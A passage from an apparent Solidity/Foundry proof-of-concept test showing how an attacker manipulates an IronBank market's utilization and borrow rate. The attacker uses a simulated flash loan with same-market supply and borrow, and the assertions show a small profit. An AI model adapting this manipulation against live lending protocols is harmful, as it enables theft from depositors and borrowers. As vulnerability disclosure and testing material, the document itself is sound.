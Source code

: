 ``` ((m.totalCash + m.totalBorrow) * 1e18) / totalSupplyPlusReserves;```
        // repay the (artificial) debt
        ib.repay(attacker, attacker, address(market1), type(uint256).max);
        // redeem the IronBank (supply) tokens for underlying asset
        ib.redeem(attacker, attacker, address(market1), type(uint256).max);
        // repay flash loan
        market1.transfer(address(1), attackerFlashLoanAmount2);
        vm.stopPrank();
    }

    function _manipulateUtilization() internal {
        vm.startPrank(attacker);
        // take flash loan
        deal(address(market1), attacker, attackAmount);
        // do the supply borrow for the same market
        ib.supply(attacker, attacker, address(market1), attackAmount);
        ib.borrow(attacker, attacker, address(market1), attackAmount);
        // repay flash loan
        market1.transfer(address(1), attackAmount);
        vm.stopPrank();
    }

    function testNormalScenario() public {
        assertEq(market1.balanceOf(attacker) / 1e18, 2000);
        _setUpInitialSupplyAndBorrow();

        // attacker does nothing

        // check utilization and borrowRate without attack
        uint256 totalCash = ib.getTotalCash(address(market1));
        uint256 totalBorrow = ib.getTotalBorrow(address(market1));
        assertEq(irm.getUtilization(totalCash, totalBorrow) / 1e16, 45);
        assertEq(irm.getBorrowRate(totalCash, totalBorrow), 10090909090);

        _redeemAndRepayAferTheAttack();
        assertEq(market1.balanceOf(attacker) / 1e18, 2010);
    }

    function testExploit() public {
        assertEq(market1.balanceOf(attacker) / 1e18, 2000);
        _setUpInitialSupplyAndBorrow();

        // attacker manipulates utilization and borrow rate
        _manipulateUtilization();

        // check utilization and borrowRate after the attack
        uint256 totalCash = ib.getTotalCash(address(market1));
        uint256 totalBorrow = ib.getTotalBorrow(address(market1));
        assertEq(irm.getUtilization(totalCash, totalBorrow) / 1e16, 93);
        assertEq(irm.getBorrowRate(totalCash, totalBorrow), 25087912087);

        _redeemAndRepayAferTheAttack();
        assertEq(market1.balanceOf(attacker) / 1e18, 2014);
    }
}
```
